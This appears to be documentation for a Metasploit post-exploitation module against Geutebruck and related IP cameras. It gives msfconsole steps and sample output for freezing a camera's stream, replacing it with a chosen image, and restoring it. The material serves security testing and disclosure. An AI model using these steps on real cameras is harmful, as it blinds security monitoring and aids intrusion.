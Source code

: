 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module will take an existing session on a vulnerable Geutebruck Camera and will allow the user to either
freeze the camera and display the last image from the video stream, display an image on the camera, or restore
 the camera back to displaying the current feed/stream.

Users can find additional details of the related vulnerabilities on the
blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps
### Freezing camera stream on the current image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action FREEZE_CAMERA`
  6. Do: `run`
  7. The image should be frozen

### Replacing camera stream with a custom image
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action REPLACE_IMAGE`
  6. Do: `set IMAGE /local/image/path/to/upload`
  7. Do: `run`
  8. The image should be replaced by the custom one

### Restoring the current camera stream
  1. Launch `msfconsole`
  2. Get a shell using one of the published Getebruck exploits
  3. Do: `use post/linux/manage/geutebruck_post_exp`
  4. Do: `set SESSION <session number of the Geutebruck shell>`
  5. Do: `set action RESUME_STREAM`
  6. Do: `run`
  7. The stream should be resumed

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use post/linux/manage/geutebruck_post_exp
msf6 post(linux/manage/geutebruck_post_exp) > show actions

Post actions:

   Name           Description
   ----           -----------
   CHANGE_IMAGE   It replaces the video stream by an arbitrary image
   FREEZE_CAMERA  It freezes the last image from the video stream
   RESUME_STREAM  It resumes the video stream back to a normal state


msf6 post(linux/manage/geutebruck_post_exp) > show options

Module options (post/linux/manage/geutebruck_post_exp):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   IMAGE                     no        Local image path to upload
   SESSION                   yes       The session to run this module on.


Post action:

   Name           Description
   ----           -----------
   FREEZE_CAMERA  It freezes the last image from the video stream


msf6 post(linux/manage/geutebruck_post_exp) > set IMAGE /var/randori.jpg
IMAGE => /var/randori.jpg
msf6 post(linux/manage/geutebruck_post_exp) > set action CHANGE_IMAGE
action => CHANGE_IMAGE
msf6 post(linux/manage/geutebruck_post_exp) > set session 1
session => 1
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Uploading a custom image...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Done! The stream should be replaced by your image!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action FREEZE_CAMERA
action => FREEZE_CAMERA
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Taking a snapshot...
[*] Freezing the stream...
[*] Backing up the original main.js...
[*] Using the new main.js...
[*] Stream frozen!
[*] Post module execution completed
msf6 post(linux/manage/geutebruck_post_exp) > set action RESUME_STREAM
action => RESUME_STREAM
msf6 post(linux/manage/geutebruck_post_exp) > run

[!] SESSION may not be compatible with this module.
[*] -- Starting action --
[*] Restoring main.js backup...
[*] Restored! Stream back to a normal state.
[*] Post module execution completed
```